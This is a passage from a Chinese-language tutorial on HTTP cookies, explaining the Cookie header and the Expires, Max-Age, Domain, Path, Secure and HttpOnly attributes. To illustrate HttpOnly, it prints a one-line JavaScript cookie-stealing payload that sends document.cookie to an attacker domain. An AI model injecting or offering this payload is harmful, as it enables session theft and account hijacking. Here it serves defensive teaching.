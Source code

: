 上面代码会向服务器发送名为foo的 Cookie，值为bar。
Cookie字段可以包含多个 Cookie，使用分号（;）分隔。

```
Cookie: foo=bar
```

下面是一个例子。
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```
服务器收到浏览器发来的 Cookie 时，有两点是无法知道的。
- Cookie 的各种属性，比如何时过期。
- 哪个域名设置的 Cookie，到底是一级域名设的，还是某一个二级域名设的。
## Cookie 的属性
#### Expires，Max-Age
Expires属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用Date.prototype.toUTCString()进行格式转换。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

如果不设置该属性，或者设为null，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

Max-Age属性指定从现在开始 Cookie 存在的秒数，比如60 * 60 * 24 * 365（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了Expires和Max-Age，那么Max-Age的值将优先生效。

如果Set-Cookie字段没有指定Expires或Max-Age属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。
#### Domain，Path
Domain属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，example.com不设置 Cookie 的domain属性，那么sub.example.com将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。
#### Secure，HttpOnly
Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

HttpOnly属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是document.cookie属性、XMLHttpRequest对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的HttpOnly属性，上面代码就不会读到该 Cookie。
## 在浏览器中操作 Cookie
#### document.cookie
document.cookie属性用于读写当前网页的 Cookie。
读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有HTTPOnly属性。
